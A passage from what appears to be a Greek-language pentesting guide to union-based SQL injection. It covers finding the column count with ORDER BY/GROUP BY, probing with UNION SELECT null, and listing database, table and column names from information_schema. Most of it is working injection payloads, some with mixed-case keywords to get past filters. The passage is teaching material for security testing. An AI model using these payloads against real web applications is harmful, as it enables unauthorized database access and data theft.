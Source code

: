 #### Order/Group by

Για να προσδιορίσετε τον αριθμό των στηλών σε ένα ερώτημα, προσαρμόστε σταδιακά τον αριθμό που χρησιμοποιείται στις ρήτρες **ORDER BY** ή **GROUP BY** μέχρι να λάβετε μια ψευδή απάντηση. Παρά τις διακριτές λειτουργίες των **GROUP BY** και **ORDER BY** μέσα στο SQL, και οι δύο μπορούν να χρησιμοποιηθούν ομοίως για να προσδιορίσουν τον αριθμό των στηλών του ερωτήματος.
```sql
1' ORDER BY 1--+    #True
1' ORDER BY 2--+    #True
1' ORDER BY 3--+    #True
1' ORDER BY 4--+    #False - Query is only using 3 columns
#-1' UNION SELECT 1,2,3--+    True
```

```sql
1' GROUP BY 1--+    #True
1' GROUP BY 2--+    #True
1' GROUP BY 3--+    #True
1' GROUP BY 4--+    #False - Query is only using 3 columns
#-1' UNION SELECT 1,2,3--+    True
```
#### UNION SELECT

Επιλέξτε περισσότερες και περισσότερες τιμές null μέχρι η ερώτηση να είναι σωστή:
```sql
1' UNION SELECT null-- - Not working
1' UNION SELECT null,null-- - Not working
1' UNION SELECT null,null,null-- - Worked
```
_Πρέπει να χρησιμοποιείτε `null` τιμές καθώς σε ορισμένες περιπτώσεις ο τύπος των στηλών και στις δύο πλευρές του ερωτήματος πρέπει να είναι ο ίδιος και το null είναι έγκυρο σε κάθε περίπτωση._

### Εξαγωγή ονομάτων βάσεων δεδομένων, ονομάτων πινάκων και ονομάτων στηλών

Στα επόμενα παραδείγματα θα ανακτήσουμε το όνομα όλων των βάσεων δεδομένων, το όνομα του πίνακα μιας βάσης δεδομένων, τα ονόματα των στηλών του πίνακα:
```sql
#Database names
-1' UniOn Select 1,2,gRoUp_cOncaT(0x7c,schema_name,0x7c) fRoM information_schema.schemata

#Tables of a database
-1' UniOn Select 1,2,3,gRoUp_cOncaT(0x7c,table_name,0x7C) fRoM information_schema.tables wHeRe table_schema=[database]

#Column names
-1' UniOn Select 1,2,3,gRoUp_cOncaT(0x7c,column_name,0x7C) fRoM information_schema.columns wHeRe table_name=[table name]
```
_Υπάρχει ένας διαφορετικός τρόπος για να ανακαλύψετε αυτά τα δεδομένα σε κάθε διαφορετική βάση δεδομένων, αλλά η μεθοδολογία είναι πάντα η ίδια._

## Exploiting Hidden Union Based
